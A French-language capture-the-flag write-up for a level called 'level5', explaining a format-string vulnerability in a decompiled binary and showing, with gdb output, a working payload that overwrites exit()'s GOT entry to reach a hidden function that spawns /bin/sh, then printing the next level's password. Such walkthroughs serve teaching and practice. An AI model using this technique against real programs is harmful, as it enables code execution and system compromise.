 # Niveau 5 : Exploitation de Format String - Redirection du Flux d'Exécution

## Aperçu du Défi

Le niveau 5 introduit un nouveau défi : nous devons rediriger l'exécution du programme vers une fonction normalement inaccessible qui contient une exécution de shell.

## Analyse du Code Source

En utilisant Ghidra, nous avons extrait le code source du binaire :

```c
#include <stdio.h>
#include <stdlib.h>

void n(void);
void o(void);

void main(void)
{
    n();
    return;
}

void n(void)
{
    char buffer[520];

    fgets(buffer, 0x200, stdin);
    printf(buffer);
    exit(1);
}

void o(void)
{
    system("/bin/sh");
    _exit(1);
}
```

## La Vulnérabilité

La vulnérabilité se trouve dans la fonction `n()` qui transmet directement l'entrée utilisateur à `printf()` sans spécificateurs de format. Cela crée une vulnérabilité de type "format string" qui nous permet de lire et d'écrire en mémoire.

## Le Défi

En analysant le code, nous pouvons identifier :

1. La fonction `n()` lit l'entrée, la transmet à `printf()`, puis appelle `exit(1)`
2. La fonction `o()` nous donnerait un shell avec `system("/bin/sh")`, mais n'est jamais appelée dans le flux normal du programme
3. Comme `n()` appelle `exit(1)` et non `return`, nous ne pouvons pas utiliser un débordement de tampon traditionnel pour rediriger l'exécution

## Adresses Mémoire Clés

En utilisant gdb, nous avons identifié l'adresse suivante :

- Adresse de la fonction `o()` : `0x080484a4` (adresse de sa première instruction)

```bash
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
```

- Adresse de la fonction `exit()` : `0x8049838` (adresse de l'instruction de saut dans la GOT)

```bash
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
```

Nous déterminons l'entrée GOT pour `exit()` en examinant son entrée PLT - l'instruction `jmp *0x8049838` montre que le programme saute à l'adresse stockée à 0x8049838, qui est l'entrée GOT contenant l'adresse réelle de la fonction `exit()`.

## La Stratégie d'Exploitation

Comme nous ne pouvons pas déborder le tampon pour modifier une adresse de retour (il n'y en a pas), nous avons besoin d'une approche différente. L'idée clé est que nous pouvons réécrire l'entrée GOT (Global Offset Table) pour `exit()` afin de rediriger l'exécution.

### Comprendre la GOT

La Global Offset Table (GOT) est une partie critique des exécutables liés dynamiquement :

- Elle contient les adresses mémoire des fonctions chargées depuis des bibliothèques externes (comme libc)
- Lorsqu'un programme appelle une fonction externe comme `exit()`, il utilise l'adresse stockée dans la GOT
- Ces adresses sont stockées dans une section de mémoire inscriptible, ce qui en fait des cibles d'exploitation

En réécrivant l'entrée GOT pour `exit()`, nous pouvons la faire pointer vers `o()` au lieu de la véritable fonction `exit()`, détournant ainsi efficacement le flux d'exécution du programme.

### Approche d'Attaque par Format String

Nous utiliserons la vulnérabilité de format string pour :

1. Placer l'adresse GOT de `exit()` au début de notre entrée
2. Utiliser la fonctionnalité d'accès direct aux paramètres pour faire écrire printf à cette adresse
3. Écrire l'adresse de la fonction `o()` (0x080484a4) dans l'entrée GOT

### 1. Déterminer les Positions des Paramètres

Pour trouver où notre adresse est positionnée dans la liste des paramètres de printf, nous exécutons :

```bash
(python -c 'print "\x38\x98\x04\x08" + "%p %p %p %p"') | ./level5
0x200 0xb7fd1ac0 0xb7ff37d0 0x8049838
```

Cela montre que notre adresse cible (0x8049838) est en position 4.

### 2. L'Exploit Complet

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"'; cat) | ./level5
```

Cette commande :

1. Place l'adresse (0x08049838) au début de notre entrée
2. Utilise `%134513824c` pour imprimer exactement 134 513 824 caractères (équivalent décimal de 0x080484a4)
3. Le `%4$n` écrit ce compteur dans le 4ème argument, qui est notre entrée GOT
4. Maintient stdin ouvert avec `cat` pour que nous puissions interagir avec le shell une fois qu'il est lancé

Lorsque l'exploit s'exécute, le programme appellera `exit(1)`, mais au lieu de sauter vers la vraie fonction `exit()`, il sautera vers notre fonction `o()`, qui nous donne un shell.

Avec le shell, nous pouvons lire le mot de passe pour le niveau 6 :

```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Observations Sur \_exit() vs exit()

Un détail intéressant est que `o()` utilise `_exit(1)` au lieu de `exit(1)`. C'est important car :

1. Si `o()` avait utilisé `exit(1)`, nous aurions créé une boucle infinie lorsque l'entrée GOT est réécrite
2. Comme `_exit()` est une fonction différente avec sa propre entrée GOT, nous évitons ce problème
3. Cela permet à notre exploit d'exécuter proprement le shell puis de se terminer
